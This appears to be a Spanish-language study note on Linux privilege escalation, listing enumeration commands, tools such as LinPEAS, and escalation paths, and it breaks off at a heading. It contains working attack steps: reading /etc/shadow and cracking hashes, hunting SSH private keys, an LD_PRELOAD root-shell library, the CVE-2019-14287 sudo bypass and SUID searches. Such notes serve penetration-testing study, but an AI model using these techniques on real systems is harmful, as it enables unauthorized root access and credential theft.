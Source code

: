  # Ciber Mentor LINUX

Tags: #LinPEAS #Linux #Escalada #PSPY 
 
## Webpages de ayuda
* [Basic Linux Privilege Escalation](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/)
* [Linux Privilege Escalation](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md)
* [Checklist - Linux Privilege Escalation](https://book.hacktricks.xyz/linux-unix/linux-privilege-escalation-checklist)
*  [Sushant 747's Guide (Country dependant - may need VPN)](https://sushant747.gitbooks.io/total-oscp-guide/content/privilege_escalation_-_linux.html)

## Initial Enumeration 

```bash
❯ lsb_release -a              # Para ver que distribucion de Linux es
❯ hostname                    # En que distribucion de Linux estamos
❯ uname -a                    # Miramos el Kernel y algunos detalles, amdx64 o x86, version. Buscar el Google si existe algun exploit. 
❯ cat /proc/version           # Miramos algo similar al comando anterior
❯ cat /etc/issue              # Miramos la distribucion, arquitectura, etc...
❯ ps aux                      # Servicios que estan corriendo, que usuario esta corriendo la tarea, tareas Cron
	❯ ps aux | grep root     # Mirar las tareas que se ejecutan del usuario root

❯ whoami                      # Quien soy?
❯ id                          # Miramos nuestro user ID, a que grupos pertenecemos, etc...
❯ sudo -l                     # Para ver si tenemos privilegios en el Sudoers (l=ele), que podamos ejecutar comandos como (root) NOPASSWD
	❯ sudo Command           # Para poder ejecutar comando como root
❯ cat /etc/passwd             # Podemos ver los usuarios, no las passwd. Los usuarios tiene /bin/bash al final 
❯ cat /etc/shadow             # Archivos sensibles 
❯ cat /etc/group
❯ history                     # Podemos ver el historial de los comandos
❯ sudo su -                   # Covertirnos en root, colocando la passwd

❯ ifconfig  o  ip a           # Miras las interfaces de Linux, IP Address
❯ route  o  ip route          # Miras la tabla de ruteo y la interface
❯ arp -a  o  ip neigh         # Miras la tabla de ARP
❯ netstat -ano                # Miras los puertos que estan abiertos de manera interna

❯ grep --color=auto -rnw '/' -ie "PASSWORD" --color=always 2> /dev/null     # Te colorea la palabra passwd para que se mas facil encontrarla
❯ locate password | more                                                    # Buscamos la palabra password y lo concatenamos con el coamndo More para ir bajando lentamente.
❯ find / -name authorized_keys  o  find / -name id_rsa 2> /dev/null         # Encontrar la clave rsa de SSH
```

## Exploring Automated Tools
Webpages 
- [LinPeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)    ->   Para descragar el binario debemos de ir a **'Quick Start > the releases page > linpeas.sh'**
- [LinEnum](https://github.com/rebootuser/LinEnum)
- [Linux Exploit Suggester](https://github.com/mzet-/linux-exploit-suggester)
- [Linux Priv Checker](https://github.com/sleventyeleven/linuxprivchecker)

```bash
❯ ./linpeas.sh                           # Para ejecutar el binario, podremos ver los diferentes colores y ahi podremos ver en donde es mas facil poder hacer el (PE=Privilege Escalation)

	# Podremos encontrar archivos o passwds

❯ ./linux-exploit-suggester.sh           # Podemos ver los CVE potenciales
```

## Kernel Exploits
Webpage 
- [Kernel Exploits](https://github.com/lucyoa/kernel-exploits)    ->   Podemos buscar la version del Kernel en Google y ver si tiene un exploit, o podemos usar la herramienta Exploit Suggester para ver los exploits que podemos usar para Escalar Privilegios

## Escalation Path: Passwd and File permisions

```bash
❯ history                         # Podemos ver el historial y puede que haya alguna passwd
❯ .bash_history                   # Lo podemos encontrar al momento de hacer 'ls -la', despues un 'cat'. Ahi tambien podrian existir passwd
❯ myvpn.ovpn                      # Podemos hacerle un 'cat' al file del VPN y mirar la ruta de su passwd y asi obtenerla

Podemos usar la Web de PaylodAllTheThings para mirar los archivos que contienen passwd y correr el comando. 

❯ cat /etc/passwd                 # Podemos ver los usuarios, gupo e id, tambien contiene un primer x que es ahi donde esta la passwd
❯ cat /etc/shadow                 # Podems ver los Hash 

Podemos hacer cosas maliciosas con la Tool 'Unshadow' 
1.- Debemos de tener el contenido del '/etc/passwd' en un archivo que se llame 'passwd'
2.- Debemos de tener el contenido del '/etc/passwd' en un archivo que se llame 'shadow'
Esta Tool te hara juntar los dos archivos 
Despues con Hashcat podemos saber que tipo de Hash es y usando el diccionario de rockyou podriamos saber la passwd
O podemos usar John the Ripper para saber la passwd con el Hash

Podemos encontrar algunas keys con estos comandos:
❯ find / -name authorized_keys 2> /dev/null          # Para buscar la clave Publica
❯ find / -name id_rsa 2> /dev/null                   # Para buscar la clave Privada

Buscaremos la id_rsa para podernos conectar por SSH con la clave privada 
❯ ssh -i id_rsa user@ip                              # Nos conectamos por SSH sin proporcionar la passwd, el archivo id_rsa debe tener 600 de privilegio con chmod
```

## Escalation Path Sudo

Webpage Buscar en 'Sudo privileges' el comando que podamos ejecutar en el sudoers
 - [GTFOBins](https://gtfobins.github.io/)
 - [Linux PrivEsc Playground](https://tryhackme.com/room/privescplayground)

```bash
❯ sudo -l                        # Podemos ver los privilegios en el sudoers (l=ele) y ver que comandos podemos ejecutar como root sin passwd
Tenemos comandos para vim, awk, nano, apache2, etc...
❯ LD_PRELOAD                     # Podemos hacer un script en el cual podriamos ejecutar cualquie comando que aparezca en el Sudoers (Liberia PreLoad)
	❯ nano shell.c
		\#incude  <stdio.h>
		\#include <sys/types.h>
		\#include <stdlib.h>

		void init() {
			unsetenv("LD_PRELOAD");
			setgid(0);
			setuid(0);
			system("/bin/bash");
		}
❯ gcc -fPIC -shared -o shell.so shell.c -nostartfiles       # Despues lo compilamos
❯ sudo LD_PRELOAD=/home/user/shell.so < COMMAND>            # Ahi podemos colocar cualquier comando que salga en el sudoers, debemos de colocar la ruta absoluta del shell.so
```

 - [Exploit-DB for CVE-2019-14287](https://www.exploit-db.com/exploits/47502) Cuando tenemos en el Sudoers un (!root)
Ahi nos explica que comando poner para poder ser root.
```bash
❯ sudo -u#-1 /bin/bash                                       # Comando para ser root cuando tenemos en el sudoers un (!root)
```

## Escalation Path: SUID (Set User ID)

```bash
1er Owner (Propietario), 2do Grupo, 3ro Otros (r=read, w=write, x=execute, d=directory) (r=4 bits, w=2bits, x=1bit)  7=rwx
❯ chmod +x file                         # Asignamos los permisos de ejecucion, en este caso para todos 
❯ chmod o+x file                        # Asignamos permisos de ejecucion, en este caso para otros

❯ find / -perm -u=s -type f 2>/dev/null # Buscaremos en la raiz los archivos que contengan el permiso S (f=files) y los errores que no nos aparezcan, encotramos varios, por lo que escogemos uno para ver sus privilegios
	Se verian asi:
		❯ ls -la /usr/bin/systemctl   # Para ver los privilegios del archivo y lo mirariamos asi - rw**s** r-x r-x 
```

 - [GTFOBins](https://gtfobins.github.io/) Para buscar ahi el SUID y ver como podemos ejecutar el comando para escalar privilegios
Aveces no todos son vulnerables y por lo tanto no se encuentran en esa pagina.

## Escalation Path: Other SUID Escalation
